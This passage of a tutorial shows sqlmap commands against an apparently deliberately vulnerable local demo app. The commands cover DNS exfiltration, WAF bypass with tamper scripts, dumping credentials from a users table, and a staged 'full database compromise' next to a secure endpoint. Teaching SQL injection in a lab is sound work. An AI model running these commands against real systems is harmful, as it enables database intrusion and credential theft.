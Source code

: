 Parameters explained:
- `--dns-domain`: Domain to use for DNS exfiltration (you need to control this domain)

### 4. Bypassing WAF/IPS Protection

If the application has basic protection mechanisms:

```bash
sqlmap -u "http://localhost:5000/user?id=1" --tamper=space2comment --random-agent --batch
```

Parameters explained:
- `--tamper`: Applies transformation scripts to injection payloads (space2comment replaces spaces with comments)
- `--random-agent`: Uses a random User-Agent for each request

### 5. Data Export and Reporting

Generate detailed reports for documentation:

```bash
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli -T users --dump --batch --output-dir=./sqlmap_results --forms
```

Parameters explained:
- `--output-dir`: Directory to save results
- `--forms`: Automatically detect and test forms on the target URL

## Demo Scenarios for the Application

### Scenario 1: Full Database Compromise Demonstration

This sequence demonstrates how an attacker could progressively compromise the entire database:

```bash
# Step 1: Detect vulnerability
sqlmap -u "http://localhost:5000/user?id=1" --batch

# Step 2: Enumerate databases
sqlmap -u "http://localhost:5000/user?id=1" --dbs --batch

# Step 3: Enumerate tables in database
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli --tables --batch

# Step 4: Extract all user data including credentials
sqlmap -u "http://localhost:5000/user?id=1" -D demo_sqli -T users --dump --batch
```

### Scenario 2: Comparing Vulnerable vs. Secure Endpoints

Demonstrate the difference between the vulnerable and secure implementations:

```bash
# Test the vulnerable endpoint
sqlmap -u "http://localhost:5000/user?id=1" --batch --dbs

# Test the secure endpoint
sqlmap -u "http://localhost:5000/secure-user?id=1" --batch --dbs
```
